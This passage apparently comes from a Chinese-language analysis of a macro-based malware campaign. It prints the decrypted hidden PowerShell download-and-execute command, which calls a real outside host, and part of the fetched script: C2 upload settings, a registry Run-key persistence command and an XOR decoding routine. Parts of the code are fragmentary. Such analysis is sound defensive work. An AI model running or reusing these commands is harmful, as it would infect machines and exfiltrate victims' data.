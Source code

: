 ```
End Function

Function sdfqefsdafsadfwqefsadf()
    With Selection.ParagraphFormat
        .LeftIndent = CentimetersToPoints(2)
        .SpaceBeforeAuto = True
        .SpaceAfterAuto = True
    End With
    With Selection.ParagraphFormat
        .RightIndent = CentimetersToPoints(2)
        .SpaceBeforeAuto = True
        .SpaceAfterAuto = True
    End With
    Selection.PageSetup.TopMargin = CentimetersToPoints(2.5)
    Selection.PageSetup.BottomMargin = CentimetersToPoints(2.5)
End Function
```

解密执行的Powershell指令如下

```
"C:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe -WindowStyle Hidden -command &amp;`{`[string]$a=`{`(New-Object Net.WebClient).Do('http://goldbin.myartsonline.com/le/yj.txt')`}`;$b=$a.insert(29,'wnloadString');$c=iex $b;iex $c`}`"
```

这里可以看到，Powershell的主要功能为下载一个文件到本地执行，下载文件的链接为：<br>
hxxp[:]//goldbin.myartsonline.com/le[/]yj.txt’

下载的yj.txt文件实质上是一个Powershell脚本，内容如下：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t01f22e1f64194cff76.png)

```
$SERVER_ADDR = "http://goldbin.myartsonline.com/le/"
$UP_URI = "post.php"
$upName = "yj"
$LocalID = "yj"
$LOG_FILENAME = "Alzip.hwp"
$LOG_FILEPATH = "\Alzip\"
$TIME_VALUE = 1000*60*30
$RegValueName = "Alzipupdate"
$RegKey = "HKCU:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run"
$regValue = "cmd.exe / c powershell.exe -windowstyle hidden IEX (New-Object System.Net.WebClient).DownloadString('http://goldbin.myartsonline.com/le/yj.txt')"
function decode($encstr)
$key = [byte[]](0,2,4,3,3,6,4,5,7,6,7,0,5,5,4,3,5,4,3,7,0,7,6,2,6,2,4,6,7,2,4,7,5,5,7,0,7,3,3,3,7,3,3,1,4,2,3,7,0,2,7,7,3,5,1,0,1,4,0,5,0,0,0,0,7,5,1,4,5,4,2,0,6,1,4,7,5,0,1,0,3,0,3,1,3,5,1,2,5,0,1,7,1,4,6,0,2,3,3,4,2,5,2,5,4,5,7,3,1,0,1,6,4,1,1,2,1,4,1,5,4,2,7,4,5,1,6,4,6,3,6,4,5,0,3,6,4,0,1,6,3,3,5,7,0,5,7,7,2,5,2,7,7,4,7,5,5,0,5,6)
$len = $encstr.Length
$j = 0
$i = 0
$comletter = ""
while($i -lt $len)
$j = $j % 160
$asciidec = $encstr[$i] -bxor $key[$j]
$dec = [char]$asciidec
$comletter += $dec
return $comletter
function UpLoadFunc($logpath)
$Url = $SERVER_ADDR + $UP_URI
$bReturn = $True
$testpath = Test-Path $logpath
```